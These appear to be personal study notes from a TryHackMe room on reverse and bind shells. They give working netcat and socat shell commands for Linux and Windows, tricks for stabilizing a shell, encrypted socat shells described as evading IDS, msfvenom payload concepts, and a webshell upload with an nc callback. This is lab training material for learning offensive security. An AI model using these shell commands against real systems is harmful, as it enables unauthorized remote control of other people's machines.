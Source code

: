 # What the Shell! (Reverse/Bind Shells)

Michael Bailey | 7/23/21

This room goes over some basic shells

You can also find more at [revshells](https://revshells.com) or on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Types of Shells

- Reverse shells are when the target is forced to execute code that connects back to the attack machine, which would be running something like Netcat to receive the connection. Usually there are also some network needs, but THM has those automatically set up
- Bind shells are when the code executed on the target is used to start a listener attached to the shell directly on the target. This opens up the ability to connect via the internet. Working out the network is easier with this method but certain firewall rules may prevent it

Reverse shells tend to be easier and slightly more reliable.

The following examples need to be ran in the exact order listed

Basic reverse shell (Unix as example, can work on Windows as well):
**Attacker**: `sudo nc -lvnp <port>`
**Target**: `nc [attacker_ip] [attacker_nc_port] -e /bin/bash`

Basic bind shell (using Windows just as an example, can be used on Unix as well):
**Target**: `nc -lvnp <port> -e "cmd.exe"`
**Attacker**: `nc [target_ip] [target_nc_port]`

Most reverse/bind shells aren't interactive, while others like SSH are. Non-interactive shells can only reliably run commands that just output text, nothing like ssh or something that takes user input.

`alias listener="sudo rlwrap nc -lvnp 443"` - alias for some examples in this room

## Stabilizing Netcat-based Shells

- On Linux, we can use python
  - First run `python(2|3 if need be) -c 'import pty;pty.spawn("/bin/bash")'` on the target, which will give a better shell
  - Then run `export TERM=xterm` which will give us commands like `clear`
  - Then `Ctrl-Z` and then run `stty raw -echo; fg` which will allow us to use `Ctrl-C` and use more interactive things like ssh. Exit the shell with `exit`
  - If it messes up or the shell dies, then `reset` will help 

- Another method is using the `rlwrap` program. This allows us to have a more stabilized shell right out the gate, and works for Windows and Unix
  - To use `Ctrl-C` in the spawned shell (Linux only), use the `Ctrl-Z` then `stty raw -echo; fg` technique from before

- Another method is to use `socat`, which is an initial Netcat shell (only more stable on Linux). You would host a webserver with [a precompiled `socat` binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat) in it on the attacking machine then use curl/wget on the target machine to bring it in
  - Socat just connects two points. It can be used like Netcat but it can also take in files or other ports as input as well
  - Reverse Unstable
    - Attacker: `socat TCP-L:<port> -` (=== `nc -lvnp <port>`)
    - Target:
      - Windows: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`
      - Linux: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`
  - Bind Unstable
    - Target:  
      - Windows: `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`
      - Linux: `socat TCP-L:<PORT> EXEC:"bash -li"`
    - Attacker: `socat TCP:<TARGET-IP>:<TARGET-PORT> -`
  - Linux Reverse Stable
    - Attacker: ```socat TCP-L:<port> FILE:`tty`,raw,echo=0```
    - Target: `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
  - Using `-d -d` will increase the verbosity if errors occur 

> Attacker: Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are allocating a new tty, and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, stty raw -echo; fg trick with a netcat shell -- with the added bonus of being immediately stable and allocating a full tty.
> 
> Target: This is a handful, so let's break it down.
>
>The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  EXEC:"bash -li". We're also passing the arguments: pty, stderr, sigint, setsid and sane:
>
>    pty, allocates a pseudoterminal on the target -- part of the stabilisation process
> 
>    stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
> 
>    sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
> 
>    setsid, creates the process in a new session
> 
>    sane, stabilises the terminal, attempting to "normalise" it.

- To change the number of cols/rows in the reverse/bind shell, run `stty -a` on the attacking machine then use `stty <rows|cols> #` on the reverse or bind shell

- Socat can also create encrypted shells, which can't be spied on unless you have a decryption key. They can also bypass IDS as a result
  - Essentially, TCP gets replaced with OPENSSL
  - Generate a cert: `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
  - Merge the two created files into a pem file: `cat shell.key shell.crt > shell.pem`
  - Reverse shell listener: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -` (verify=0 says not to validate the cert signature)
  - Reverse shell target: `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`
  - Bind shell target: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
  - Bind shell listener: `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`
    - Windows requires the bind shell target requires the pem file, so a way would need to be found to use the cert on the victim machine

- What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"

```
socat OPENSSL-LISTEN:53 FILE:`tcp`,raw,echo=0,cert=encrypt.pem,verify=0 -
```

- If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

```
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

It's common to use other payloads in order to start shells since `nc -e` won't work everywhere. The links I posted above have a literal shit ton of examples in different languages, shells, and other tools

Metasploit offers `msfvenom`, which creates an executable to be ran on the target machine (for both reverse shells and bind shells)

- Staged payloads are sent in two executables. The first is put on the machine, and when ran, downloads the second executable which is then ran
- Stageless payloads do it all in one step. It's more common and easier to use but are also easier to detect
- Both, currently, can be caught, though the staged payload may get through shitty or misconfigured antivirus software

For the Metasploit shells, it uses `meterpreter`, which are fully stable shells that interact with the target machine

Metaploit's `multi/handler` is good for catching reverse shells, usually used in tandem with meterpreter

Webshells are shells you upload to a web server taking files and navigating to them if possible

## Practice

- Try uploading a webshell to the Linux box, then use the command: `nc <LOCAL-IP> <PORT> -e /bin/bash` to send a reverse shell back to a waiting listener on your own machine.
  - In the Webshells section, it recommends `/usr/share/webshells/php/php-reverse-shell.php`
